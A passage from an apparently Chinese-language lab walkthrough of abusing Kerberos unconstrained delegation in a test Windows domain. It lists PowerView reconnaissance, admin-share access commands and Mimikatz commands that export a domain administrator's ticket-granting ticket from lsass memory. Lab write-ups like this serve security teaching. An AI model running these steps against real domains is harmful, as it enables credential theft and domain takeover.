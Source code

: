 ```bash
Get-NetComputer -Unconstrained -Domain hacke.testlab | select name
```

[![](assets/1705982146-853a1992f2787c9fc2130fdd4196fc38.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222457-b024b42a-b79f-1.png)  
Step 2：在 win7 上访问域控主机，提示拒绝访问

```bash
dir \\dc.hacke.testlab\c$
```

[![](assets/1705982146-d11b708cf87cb9bda97385c19eb01f6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222512-b8e7efdc-b79f-1.png)  
Step 3：此时我们在域控主机 Windows Server 2012 R2 上以 Administrator 身份访问 win7 机器

```bash
dir \\win7-test.hacke.testlab\c$
```

[![](assets/1705982146-1cbd9880b1d73f163957e974eb3a7d23.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222530-c3e8d9b4-b79f-1.png)  
Step 4：此时在 win 7 主机的 lsass.exe 内存中就会有域用户 administrator 的 TGT 票据，之后我们在 window 7 上以管理员的方式运行 Mimikatz，执行以下命令：

```bash
privilege::debug 
sekurlsa::tickets /export
```
